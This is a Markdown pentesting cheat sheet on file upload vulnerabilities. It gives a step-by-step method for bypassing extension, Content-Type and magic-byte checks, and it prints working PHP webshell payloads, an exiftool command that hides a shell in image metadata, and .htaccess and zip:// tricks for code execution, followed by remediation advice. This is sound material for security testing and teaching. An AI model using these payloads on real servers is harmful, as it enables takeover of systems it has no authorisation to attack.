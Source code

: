 # File uploads

File upload functions can be used as a powerful vector for a number of high-severity attacks. 

## Steps

* Browse the site and find each upload functionality.
* Start with basic test by uploading a webshell using Weevely.
* If that fails, try the bypasses. If a bypass is successful, exploit further, or try another.
* Make report.

## Blacklisting bypass

Find the upload request, send it to Repeater and test which extension for the file is blacklisted by changing the `filename=` parameter:

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: application/x-php
```

|          Extension          | Try                                      |
|:---------------------------:|:-----------------------------------------|
|             PHP             | .phtm, phtml, .phps, .pht, .php2, .php3, |
|                             | .php4, .php5, .shtml, .phar, .pgif, .inc |
|             ASP             | asp, .aspx, .cer, .asa                   |
|             Jsp             | .jsp, .jspx, .jsw, .jsv, .jspf           |
|         Coldfusion          | .cfm, .cfml, .cfc, .dbm                  |
| Using random capitalisation | .pHp, .pHP5, .PhAr                       |

Find more in PayloadAllThings. If successful, exploit further, or try another type of validation or bypass.

## Whitelisting bypass

Try these extensions on the `filename=` parameter:

    file.jpg.php
    file.php.jpg
    file.php.blah123jpg
    file.php%00.jpg
    file.php\x00.jpg 
    file.php%00
    file.php%20
    file.php%0d%0a.jpg
    file.php.....
    file.php/
    file.php.\
    file.php#.png
    file.
    .html

## Content-Type validation

Change the `Content-Type: application/x-php` or `Content-Type : application/octet-stream` to `Content-Type: image/png` or `Content-Type: image/gif` or `Content-Type: image/jpg`.

## Content-Length validation

For `Content-Type: application/x-php`, try a small file payload:

    <?=`$_GET[x]`?>   
    <?=‘ls’;   Note : <? work for “short_open_tag=On” in php.ini ( Default=On )

If that works, try a better shell ...

## Magic bytes

Change `Content-Type: application/x-php` to `Content-Type: image/gif` and add the 
	 text `GIF89a;` before the shell-code.

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>
```

See [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures).

## Magic bytes and metadata shell

Bypass `Content-Type` checks by setting the value of the `Content-Type` header to `image/png`, `text/plain`, `application/octet-stream`, and create a shell using the metadata using tool exiftool:

    exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

Try uploading the modified `img.jpg`.

## Uploading configuration files

Try, for example, uploading a `.htaccess` file [htshells](https://github.com/wireghoul/htshells) or a `.config` file. Code can be appended at the end of the file.

For example, uploading a `.htaccess` file with `AddType application/x-httpd-php .l33t`, instructs the Apache HTTP Server to execute PNG images as though they were PHP scripts. After that, upload a php webshell file with extension `.l33t`.

## Zip slip

If a site accepts `.zip` files, upload `.php` by compressing it into `.zip` and uploading it. Then visit `target.com/path?page=zip://path/file.zip%23rce.php`.

## Escalation

The impact of file upload vulnerabilities generally depends on two key factors:

* Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
* What restrictions are imposed on the file once it has been successfully uploaded.

What can you achieve by exploiting file-upload: Remote code execution, SSRF, XSS, LFI, XXE, phishing, parameter pollution, disclosure of internal paths, SQL injection, DoS attack, etcetera:

|        Extension(s)        |               Impact               |
|:--------------------------:|:----------------------------------:|
| ASP, ASPX, PHP5, PHP, PHP3 |           Webshell, RCE            |
|            SVG             |       Stored XSS, SSRF, XXE        |
|            GIF             |          Stored XSS, SSRF          |
|            CSV             |           CSV injection            |
|            XML             |                XXE                 |
|            AVI             |             LFI, SSRF              |
|          HTML, JS          | HTML injection, XSS, Open redirect |
|         PNG, JPEG          |      Pixel flood attack (DoS)      |
|            ZIP             |          RCE via LFI, DoS          |
|         PDF, PPTX          |          SSRF, BLIND XXE           |
|            SCF             |                RCE                 |

In the worst case scenario, the file's type isn't validated properly, and the server configuration allows certain types of file (such as `.php` and `.jsp`) to be executed as code. In this case, an attacker could potentially upload a server-side code file that functions as a webshell, effectively granting them full control over the server.

## Portswigger labs

* [Remote code execution via web shell upload](../burp/upload/1.md)
* [Web shell upload via Content-Type restriction bypass](../burp/upload/2.md)
* [Web shell upload via path traversal](../burp/upload/3.md)
* [Web shell upload via extension blacklist bypass](../burp/upload/4.md)
* [Web shell upload via obfuscated file extension](../burp/upload/5.md)
* [Remote code execution via polyglot web shell upload](../burp/upload/6.md)
* [Web shell upload via race condition](../burp/upload/7.md)
* [Race conditions](../techniques/race.md)

## Remediation

* Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload.
* Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).
* Rename uploaded files to avoid collisions that may cause existing files to be overwritten.
* Do not upload files to the server's permanent filesystem until they have been fully validated.
* If uploaded files are downloadable by users, supply an accurate non-generic `Content-Type` header, the `X-Content-Type-Options: nosniff` header, and also a `Content-Disposition` header that specifies that browsers should handle the file as an attachment.
* Enforce a size limit on uploaded files (for defence-in-depth, this can be implemented both within application code and in the web server’s configuration).
* Reject attempts to upload archive formats such as ZIP.
* As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.

## Resources

* [Portswigger: File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
* [OWASP:Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)
* [OWASP: File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
* [Weevely](https://www.blackhatethicalhacking.com/tools/weevely/)